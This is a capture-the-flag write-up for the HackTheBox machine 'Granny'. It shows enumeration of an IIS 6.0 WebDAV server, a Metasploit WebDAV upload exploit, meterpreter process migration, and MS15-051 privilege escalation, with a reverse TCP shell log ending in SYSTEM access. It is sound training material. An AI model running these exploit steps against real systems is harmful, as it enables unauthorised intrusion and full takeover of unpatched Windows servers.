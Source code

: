 
# Granny - HackTheBox

A few words describe this box. Update. Your. Shit.

# Enumeration

## Rustscan

```bash
Open 10.10.10.15:80
```

## Nmap

```bash
PORT   STATE SERVICE VERSION
80/tcp open  http    Microsoft IIS httpd 6.0
|_http-title: Under Construction
| http-webdav-scan: 
|   Server Type: Microsoft-IIS/6.0
|   Public Options: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
|   Allowed Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
|   WebDAV type: Unknown
|_  Server Date: Sun, 04 Sep 2022 22:11:56 GMT
|_http-server-header: Microsoft-IIS/6.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT POST
|_  Potentially risky methods: TRACE DELETE COPY MOVE PROPFIND PROPPATCH SEARCH MKCOL LOCK UNLOCK PUT
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

## ffuf

```bash
 :: Method           : GET
 :: URL              : http://granny.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

Images                  [Status: 301, Size: 148, Words: 9, Lines: 2, Duration: 71ms]
_private                [Status: 301, Size: 152, Words: 9, Lines: 2, Duration: 60ms]
_vti_log                [Status: 301, Size: 154, Words: 9, Lines: 2, Duration: 69ms]
_vti_bin                [Status: 301, Size: 154, Words: 9, Lines: 2, Duration: 126ms]
aspnet_client           [Status: 301, Size: 157, Words: 9, Lines: 2, Duration: 62ms]
images                  [Status: 301, Size: 148, Words: 9, Lines: 2, Duration: 68ms]
:: Progress: [20476/20476] :: Job [1/1] :: 463 req/sec :: Duration: [0:00:33] :: Err
```

# Foothold & Root

I googled Microsoft IIS 6.0 vulnerabilities and found [this](https://www.trendmicro.com/en_us/research/17/c/iis-6-0-vulnerability-leads-code-execution.html) article by TrendMicro about a vulnerability in Webdav in IIS 6.0.

Curious, I checked metasploit for any modules and found "windows/iis/iis_webdav_upload_asp".

Tried it out and popped a shell and migrated into wmiprvse.exe with success!

```cmd
 1964  584   wmiprvse.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\wbem\wmiprvse.exe
 1972  2700  svchost.exe        x86   0                                      C:\WINDOWS\Temp\rad10F81.tmp\svchost.exe
 2052  1004  cmd.exe            x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\cmd.exe
 2164  1848  cmd.exe            x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\cmd.exe
 2292  584   wmiprvse.exe
 2700  1480  w3wp.exe           x86   0        NT AUTHORITY\NETWORK SERVICE  c:\windows\system32\inetsrv\w3wp.exe
 2768  584   davcdata.exe       x86   0        NT AUTHORITY\NETWORK SERVICE  C:\WINDOWS\system32\inetsrv\davcdata.exe
 3004  344   logon.scr

meterpreter > migrate 1964
[*] Migrating from 1972 to 1964...
[*] Migration completed successfully.
meterpreter > getuid
```

```cmd
Microsoft Windows [Version 5.2.3790]
(C) Copyright 1985-2003 Microsoft Corp.
```

Version 5.2 seems pretty old so I ran it through Windows-Exploit-Suggestor.

MS15-051 - ClientCopyImage was the first one I tried, and it was successful in getting a root shell!

```bash
msf6 exploit(windows/local/ms15_051_client_copy_image) > run

[*] Started reverse TCP handler on 10.10.14.29:1234 
[*] Reflectively injecting the exploit DLL and executing it...
[*] Launching msiexec to host the DLL...
[+] Process 3984 launched.
[*] Reflectively injecting the DLL into 3984...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (175686 bytes) to 10.10.10.15
[*] Meterpreter session 3 opened (10.10.14.29:1234 -> 10.10.10.15:1035) at 2022-09-04 18:10:02 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

In there I found the user flag in "Lakis" home folder, and the root flag in "Administrator"! :)
